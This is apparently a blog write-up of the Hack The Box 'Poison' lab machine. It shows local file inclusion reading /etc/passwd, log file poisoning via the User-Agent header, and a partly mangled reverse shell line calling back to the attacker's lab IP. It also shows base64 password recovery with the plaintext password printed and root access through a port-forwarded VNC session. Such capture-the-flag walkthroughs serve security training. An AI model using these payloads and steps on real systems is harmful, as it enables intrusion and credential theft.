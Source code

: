 ```yaml
---
id: 3456
title: 'Hackthebox &#8211; Poison'
date: '2022-04-15T07:57:58+00:00'
author: vedanttare
excerpt: 'In this post, we are going to be pwning "Poison" from Hackthebox.'
layout: post
guid: 'http://vedanttare.com/?p=3456'
permalink: /hackthebox-poison/
powerkit_share_buttons_transient_facebook:
    - '1692134041'
powerkit_share_buttons_transient_pinterest:
    - '1727946369'
image: 'http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-2.26.57-PM-496x166.png'
categories:
    - Writeups
---
```


![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-2.25.58-PM.png)

IP: 10.10.10.84

## Enumeration

After doing a simple nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/poison 10.10.10.84`, we get,

Ports open:

- 22/ssh
- 80/http

Checking the webpage on port 80, we could see that we could run some php files and display them such as ini.php or phpinfo.php.

![](http://vedanttare.com/wp-content/uploads/2022/04/php-file-image-poison.png)

The files were displayed and the URL was: `http:///browse.php?file=phpinfo.php`. So, what this was probably doing is that the browse.php file probably had some php code which is used to ‘GET’ other files by specifying the file parameter. Trying for LFI: `…….?file=../../../../etc/passwd`, we were displayed with the `/etc/passwd` file, we got LFI.

![](http://vedanttare.com/wp-content/uploads/2022/04/etcpasswd-file-img.png)

Now we wanted and rce, and as the name of the box goes which is poison, I got 2 things in mind, one was web cache poisoning(not so relevant here) and the other was log file poisoning. To get an rce we need to call and see the log file first, and for that we need to know the location of the log file on the server. I tried the normal location for log file on apache web server: `/var/log/httpd/access.log` but no luck.

Then I tried to search on google for file paths for apache24 and I got the apache documentation which had the path to the configuration file which was a banger as we could see all paths from the config file.

Check the config file and got the location of log file: `/var/log/httpd-access.log`

![](http://vedanttare.com/wp-content/uploads/2022/04/conf-file-with-log-file.png)

Now finally, we navigate to the log file and get,

![](http://vedanttare.com/wp-content/uploads/2022/04/log-file.png)

## Exploitation

### Log file Poisoning

To get rce we need to use a technique called log file poisoining in which we embed some code in the request header of the log file and successfully execute that code.

Embedding some php code in the User-agent header in the request.

`GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1<br></br>Host: 10.10.10.84<br></br>User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/68.0<br></br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,<em>/</em>;q=0.8<br></br>Accept-Language: en-US,en;q=0.5<br></br>Accept-Encoding: gzip, deflate<br></br>Connection: close<br></br>Upgrade-Insecure-Requests: 1`

**—–Output——–**

10.10.14.6 – – \[11/Oct/2020:16:25:58 +0200\] “GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1” 200 2234 “-” “Mozilla/5.0 total 72  
drwxr-xr-x 2 root wheel 512 Mar 19 2018 .  
drwxr-xr-x 6 root wheel 512 Jan 24 2018 ..  
-rw-r–r– 1 root wheel 33 Jan 24 2018 browse.php  
-rw-r–r– 1 root wheel 289 Jan 24 2018 index.php  
-rw-r–r– 1 root wheel 27 Jan 24 2018 info.php  
-rw-r–r– 1 root wheel 33 Jan 24 2018 ini.php  
-rw-r–r– 1 root wheel 90 Jan 24 2018 listfiles.php  
-rw-r–r– 1 root wheel 20 Jan 24 2018 phpinfo.php  
-rw-r–r– 1 root wheel 1267 Mar 19 2018 pwdbackup.txt

We had code execution. Now, we just to use a simple payload to get a reverse shell.

Our reverse shell payload will be,

![](http://vedanttare.com/wp-content/uploads/2022/04/rev-shell-payload.png)

And the code execution,

![](http://vedanttare.com/wp-content/uploads/2022/04/code-execution.png)

………………………….  
……………………………  
…………………………..  
User-Agent: Mozilla/5.0 &amp;1|telnet 10.10.14.6 9001 clear &gt; /tmp/f’); ?&gt; Gecko/20100101 Firefox/68.0

After setting up a listener on our kali machine, we get a reverse shell!

![](http://vedanttare.com/wp-content/uploads/2022/04/rev-shell.png)

## Privilege Escalation

We have got a shell as `www` and we need to get root by passing a user charix.There was a file pwdbackup.txt which had base64 encoded string in it which was encoded 13 times.

![](http://vedanttare.com/wp-content/uploads/2022/04/pwdbackup13.png)

So we had to base64 decode this file 13 times. To do this we used:

`for i in $(seq 1 13); do echo -n ‘ | base64 -d’; done`  
–&gt; What this does is that it just print ‘| base64 -d’ 13 times

Then we copy the string in a file and just decode it using our ‘| base64 -d’:  
`cat passwd | base64 -d | base64 -d | base64 -d |……………………………………………….`

And we get a password:  
`kali@starscorp1o  ~/htb/boxes/poison  cat password | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d`

`password: Charix!2#4%6&8(0`

Using this password to ssh into the machine as the user charix.

Now we to get root.

There is a zip file that we found in /home/charix called secret.zip. Transferring that to our kali machine and then unzipping it using the password from the base64 decoded string we get some non-ASCII characters which we will use later.

Checking the services:

We can see that there is a vnc process running as root.

![](http://vedanttare.com/wp-content/uploads/2022/04/vnc-root.png)

Checking if any other ports are open locally:

`netstat -a | grep LIST`

`Active Internet connections (including servers)<br></br>Proto Recv-Q Send-Q Local Address Foreign Address (state)<br></br>tcp4 0 0 10.10.10.84.37093 10.10.14.6.9000 ESTABLISHED<br></br>tcp4 0 0 10.10.10.84.http 10.10.14.6.49062 CLOSE_WAIT<br></br>tcp4 0 0 localhost.smtp <em>.</em> LISTEN<br></br>tcp4 0 0 *.http *.* LISTEN<br></br>tcp6 0 0 *.http *.* LISTEN<br></br>tcp4 0 0 *.ssh *.* LISTEN<br></br>tcp6 0 0 *.ssh *.* LISTEN<br></br>tcp4 0 0 localhost.5801 <em>.</em> LISTEN<br></br>tcp4 0 0 localhost.5901 <em>.</em> LISTEN<br></br>udp4 0 0 *.syslog *.*<br></br>udp6 0 0 *.syslog *.*`

![](http://vedanttare.com/wp-content/uploads/2022/04/local-ports-open.png)

Services running:

![](http://vedanttare.com/wp-content/uploads/2022/04/services.png)

We could see that there are 2 ports are open and they are vnc ports, and we also have a vnc service running as root!

Using ssh port forwarding to tunnel the traffic over ssh:

`ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84 (on kali machine)`

Checking the browser we have nothing. Using vncviewer to view the vnc program on the ports and supplying the password from the secret.zip file:

`kali@starscorp1o  ~/htb/boxes/poison  vncviewer -passwd secret 127.0.0.1::5901<br></br>Connected to RFB server, using protocol version 3.8<br></br>Enabling TightVNC protocol extensions<br></br>Performing standard VNC authentication<br></br>Authentication successful<br></br>Desktop name "root's X desktop (Poison:1)"<br></br>VNC server default format:<br></br>32 bits per pixel.<br></br>Least significant byte first in each pixel.<br></br>True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0<br></br>Using default colormap which is TrueColor. Pixel format:<br></br>32 bits per pixel.`

The vnc gui/program opens up and we see that it is running as root!

![](http://vedanttare.com/wp-content/uploads/2022/04/vnc-running-root.png)

And hence we are root and from there we can grab the root flag.

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Bounty](https://vedanttare.com/hackthebox-bounty/)

<iframe class="wp-embedded-content" data-secret="upnPXrMebN" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-bounty/embed/#?secret=ui6EPK1IWL#?secret=upnPXrMebN" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Bounty” — VEDANT TARE" width="600"></iframe></div></figure>